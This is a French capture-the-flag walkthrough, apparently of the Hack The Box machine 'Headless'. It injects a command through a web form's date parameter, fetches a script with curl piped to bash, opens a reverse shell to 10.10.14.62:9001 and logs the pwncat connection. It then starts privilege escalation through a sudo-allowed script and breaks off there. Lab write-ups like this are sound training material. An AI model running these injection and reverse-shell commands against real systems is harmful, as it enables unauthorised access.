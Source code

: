 On peut voir que le serveur envoie une requête POST avec un paramètre date. On ajoute un reverse shell dans le paramètre date

Créer un reverse shell dans un fichier shell.sh
```bash
/bin/bash -c  "sh -i >& /dev/tcp/10.10.14.62/9001 0>&1"
```

Commande pour envoyer le reverse shell à notre machine
```bash
date=2023-09-15;curl http://<YOUR_IP>/shell.sh |bash
```

## User

On peut voir que le serveur a reçu notre reverse shell
```bash
[Mar 26, 2024 - 15:07:15 (CET)] exegol-htb Headless # pwncat-cs -lp 9001
[15:07:21] Welcome to pwncat 🐈!                                                                                                                               __main__.py:164
[15:07:25] received connection from 10.10.11.8:42146                                                                                                                bind.py:84
[15:07:26] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                          manager.py:957
[15:07:27] 10.10.11.8:42146: registered new host w/ db                                                                                                          manager.py:957
(local) pwncat:
(remote) dvir@headless:/home/dvir/app:
```



```bash
(remote) root@headless:/root# id
uid=1000(dvir) gid=1000(dvir) euid=0(dvir) groups=1000(dvir),100(users)
(remote) root@headless:/home/dvir# cat user.txt
0e*************ba
```


## Privilege Escalation

```bash
(remote) dvir@headless:/home/dvir$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

On va regarder le fichier syscheck
```bash
(remote) dvir@headless:/home/dvir$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
```
